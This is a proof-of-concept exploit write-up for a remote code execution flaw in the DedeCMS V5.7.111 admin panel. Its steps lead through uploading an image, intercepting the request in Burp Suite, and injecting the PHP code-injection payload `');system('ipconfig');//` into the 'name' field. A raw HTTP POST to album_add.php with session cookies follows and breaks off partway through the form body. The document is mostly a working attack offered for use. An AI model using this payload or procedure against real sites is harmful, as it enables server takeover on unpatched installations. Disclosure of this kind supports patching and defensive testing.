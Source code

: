 # DedeCMS V5.7.111 Remote Code Execution Vulnerability

## Attack steps
1. Log in to the management page first, then select "内容维护" in the upper right corner, then click "图片集" on the left, and finally click "添加文档" in the middle. As shown below:
![dedecms-add.png](https://blog-1258330723.cos.ap-beijing.myqcloud.com/usr/uploads/2023/09/3138598933.png?sign=q-sign-algorithm%3Dsha1%26q-ak%3DAKIDFN6lDSWQ7as1xgFbt3zjGbhhT1KODoB8%26q-sign-time%3D1695726336%3B1695729996%26q-key-time%3D1695726336%3B1695729996%26q-header-list%3Dhost%26q-url-param-list%3D%26q-signature%3D15438e26133305fbdf7ea058ebf35fe0384b6875&)

2. After entering "添加文档", fill in the "图集标题" in turn, select "图集主栏目", and select local images in the manual upload section to upload a picture.
![add-photo-1.png](https://blog-1258330723.cos.ap-beijing.myqcloud.com/usr/uploads/2023/09/1026476081.png?sign=q-sign-algorithm%3Dsha1%26q-ak%3DAKIDFN6lDSWQ7as1xgFbt3zjGbhhT1KODoB8%26q-sign-time%3D1695726336%3B1695729996%26q-key-time%3D1695726336%3B1695729996%26q-header-list%3Dhost%26q-url-param-list%3D%26q-signature%3De4271cf30f99b2e679bac40e19af4b62ddef5ca7&)

3. Then open burpsuit and turn Intercept on, intercept the HTTP request that clicks the "确定" button, then modify the value of the **"name"** parameter at the location shown in the icon to `');system('ipconfig');//`
![dedecms-rce.png](https://blog-1258330723.cos.ap-beijing.myqcloud.com/usr/uploads/2023/09/4046933789.png?sign=q-sign-algorithm%3Dsha1%26q-ak%3DAKIDFN6lDSWQ7as1xgFbt3zjGbhhT1KODoB8%26q-sign-time%3D1695726336%3B1695729996%26q-key-time%3D1695726336%3B1695729996%26q-header-list%3Dhost%26q-url-param-list%3D%26q-signature%3Df354db463852b67eb415879fcee983ed75c05ea7&)

4. Finally, Forward the HTTP request, and then you can see that the `ipconfig` command is successfully executed
![dedecms-ipconfig.png](https://blog-1258330723.cos.ap-beijing.myqcloud.com/usr/uploads/2023/09/4000045358.png?sign=q-sign-algorithm%3Dsha1%26q-ak%3DAKIDFN6lDSWQ7as1xgFbt3zjGbhhT1KODoB8%26q-sign-time%3D1695726336%3B1695729996%26q-key-time%3D1695726336%3B1695729996%26q-header-list%3Dhost%26q-url-param-list%3D%26q-signature%3D39ab05c078214f55aff6b9a47a8f9e18b7a17c86&)

## Full HTTP Request and Response
HTTP Request: 
```
POST /dede/album_add.php HTTP/1.1
Host: 127.0.0.1
Content-Length: 4121
Cache-Control: max-age=0
sec-ch-ua: 
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: ""
Upgrade-Insecure-Requests: 1
Origin: http://dedecms-57105.localhost
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryfoNBMhAWA73UNeUq
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/116.0.5845.97 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: iframe
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: menuitems=1_1%2C2_1%2C3_1%2C4_1%2C5_1%2C6_1; DedeUserID=1; DedeUserID1BH21ANI1AGD297L1FF21LN02BGE1DNG=693db57bf5d85c42; PHPSESSID=0kckthapkrjb7jlhg207ovnit2; _csrf_name_8fc2d915=ee428983820312df1afe447e487e3dbd; _csrf_name_8fc2d9151BH21ANI1AGD297L1FF21LN02BGE1DNG=e2a21dd6e71d551c; DedeLoginTime=1694173153; DedeLoginTime1BH21ANI1AGD297L1FF21LN02BGE1DNG=1971781375dd7f27; ENV_GOBACK_URL=%2Fdede%2Fcontent_i_list.php%3Fchannelid%3D2
Connection: close

------WebKitFormBoundaryfoNBMhAWA73UNeUq
Content-Disposition: form-data; name="channelid"

2
------WebKitFormBoundaryfoNBMhAWA73UNeUq
Content-Disposition: form-data; name="cid"

0
------WebKitFormBoundaryfoNBMhAWA73UNeUq
Content-Disposition: form-data; name="imagebody"
```